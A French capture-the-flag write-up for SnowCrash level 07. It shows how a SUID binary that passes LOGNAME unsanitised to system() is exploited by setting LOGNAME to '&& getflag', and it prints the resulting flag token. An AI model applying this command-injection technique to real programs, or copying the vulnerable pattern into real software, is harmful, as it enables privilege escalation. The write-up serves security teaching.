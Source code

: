# Niveau 07 : Injection de Commande via Variable d'Environnement

## Aperçu

Dans ce niveau, nous avons rencontré un binaire SUID (`level07`) appartenant à `flag07` qui était vulnérable à l'injection de commande via les variables d'environnement.

## Analyse

### Examen Initial

Lorsque nous vérifions le binaire pour la première fois :

```console
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

Le binaire a le bit SUID activé (notez le 's' dans les permissions), ce qui signifie qu'il s'exécute avec les privilèges de son propriétaire (`flag07`).

Lorsqu'il est exécuté, le binaire affiche simplement "level07" :

```console
level07@SnowCrash:~$ ./level07
level07
```

### Analyse du Binaire

L'analyse à l'aide d'un décompilateur comme Ghidra, qui tente de reconstruire un code source de type C à partir du binaire compilé, révèle la logique vulnérable principale :

```c
  // Extrait décompilé par Ghidra (les noms de variables peuvent légèrement différer)
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
```

Ce code montre explicitement que le programme :

1.  Récupère la variable d'environnement `LOGNAME` en utilisant `getenv`.
2.  Met en forme cette valeur dans une chaîne de commande `/bin/echo %s ` en utilisant `asprintf`.
3.  Exécute la chaîne de commande résultante en utilisant `system()`.

La vulnérabilité réside dans l'incorporation directe de la valeur non désinfectée de `LOGNAME` dans la chaîne de commande passée à `system()`.

## Exploitation

La vulnérabilité peut être exploitée en modifiant la variable d'environnement `LOGNAME` pour inclure des commandes shell :

```console
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### Comment ça marche :

1.  Nous définissons `LOGNAME` à `"&& getflag"`.
2.  Lorsque le programme exécute `system("/bin/echo %s", getenv("LOGNAME"))`, il exécute effectivement :
    ```
    system("/bin/echo && getflag")
    ```
3.  Dans la syntaxe shell, l'opérateur `&&` exécute la deuxième commande si la première réussit.
4.  `/bin/echo` sans arguments affiche simplement une nouvelle ligne et se termine avec succès.
5.  Ensuite, `getflag` s'exécute avec les privilèges de `flag07`, nous donnant le jeton.

## Leçon de Sécurité

Ce niveau démontre le danger de passer des entrées utilisateur ou des variables d'environnement non désinfectées à des fonctions comme `system()`. Validez et désinfectez toujours toute entrée qui pourrait affecter l'exécution de commandes.

## Jeton

```
fiumuikeil55xe9cu4dood66h
```

